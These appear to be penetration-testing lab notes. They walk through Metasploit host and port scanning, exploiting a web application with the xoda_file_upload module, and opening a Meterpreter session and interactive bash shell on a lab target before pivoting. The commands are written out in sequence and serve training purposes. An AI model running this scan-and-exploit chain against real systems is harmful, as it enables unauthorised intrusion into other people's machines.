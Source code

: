 #### MSF built-in Nmap

```
msf5> workspace -a nmap_msf
msf5> db_nmap -Pn -sV -O 10.3.29.233
msf5> hosts
msf5> vulns
```

### Port scanning with auxiliary

#### Description

* Auxiliary modules are used to perform functionality like scanning, discovery and fuzzing.
* We can use auxiliary modules to perform both TCP and UDP port scanning as well as enumerating information from services like FTP, SSH, HTTP etc.
* Auxiliary modules can be used during the information gathering phase of a penetration test as well as the post exploitation phase.
* We can also use auxiliary modules to discover hosts and perform port scanning on a different network subnet after we have obtained initial access on a target system.

#### Lab infrastucture

* Our objective is to utilize auxiliary modules to discover open ports on our first target.
* The next step will involve exploiting the service running on the target in order to obtain a foothold.
* We will then utilize our foothold to access other systems on a different network subnet (pivoting).
* We will then utilize auxiliary modules to scan for open ports on the second target.

```bash
root@attackdefense> service postgresql start && msfconsole

msf5> db_status
msf5> workspace -a port_scan
msf5> search portscan
msf5> use auxiliary/scanner/portscan/tcp
msf5> set rhosts 192.8.146.3
msf5> run
```

The port `192.8.146.3:80` is open.

```
msf5> curl 192.8.146.3
msf5> search xoda
msf5> use exploit/unix/webapp/xoda_file_upload
msf5> set rhosts 192.8.146.3
msf5> set targeturi /
msf5> run

meterpreter> sysinfo
meterpreter> shell
/bin/bash -i

www-data@victim-1> ifconfig
```
